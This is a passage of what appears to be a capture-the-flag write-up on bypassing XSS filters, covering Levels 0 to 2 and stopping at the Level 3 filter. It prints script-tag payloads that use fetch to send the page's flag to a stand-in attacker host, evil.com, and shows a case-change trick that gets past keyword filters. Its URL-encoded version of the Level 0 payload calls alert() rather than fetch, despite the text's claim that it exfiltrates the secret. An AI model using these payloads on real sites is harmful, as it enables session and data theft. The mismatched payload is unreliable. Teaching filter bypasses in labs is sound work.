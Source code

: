 ## Level-by-level analysis and exploitation
### Level 0

JavaScript filter: `(html) => html`

This level, meant as an introduction, features no protection against XSS. All HTML passed in the URL will be injected into the page as-is. One way to take advantage of this is to simply inject a script HTML tag uses the `document.querySelector` function to retrieve the secret's container and send it to an attacker-controlled server using `fetch` as follows:
```
<script>fetch('https://evil.com/' + document.querySelector('.flag').innerText)</script>
```

In URL form, this code looks like this:

```
${page_base_url}?html=<script>alert('https%3A%2F%2Fevil.com%2F'+%2B+document.querySelector('.flag').innerText)<%2Fscript>
```

If the attacker can get the website's administrator to visit this URL, the secret will be sent to the attacker's website as a GET request.

### Level 1

JavaScript filter: `(html) => html.includes('script') || html.length > 150 ? 'nuh-uh' : html`

Level 1 features the first real attempt at preventing JavaScript injection. If the input html contains the substring `script` or has a length greater than 150, the input is rejected completely. Note that the substring identification is implemented using JavaScript's `includes` string method.

There are multiple ways to circumvent this protection. For one, the `script` tag is far from the only way to execute JavaScript in HTML, which will become relevant later. In this case however, the simplest attack is simply to repeat the same payload with both occurences of `script` being capitalized

```
<SCRIPT>fetch('https://evil.com/' + document.querySelector('.flag').innerText)</SCRIPT>
```

This bypasses the `includes` check and also fits in the 150 characters limit, while remaining functional as HTML is not case sensitive.

### Level 2

JavaScript filter: `(html) => html.includes('script') || html.includes('on') || html.length > 150 ? 'nuh-uh' : html`

Level 2 features the same checks as level 1, with an additional `includes` check that blocks all `on` substrings. This is probably intended to prevent the use of images and similar HTML elements to execute JavaScript using event handlers like `onload`, but it can be circumvented using the exact same payload as Level 1.

### Level 3

JavaScript filter: `(html) => html.toLowerCase().replaceAll('script', '').replaceAll('on', '')`
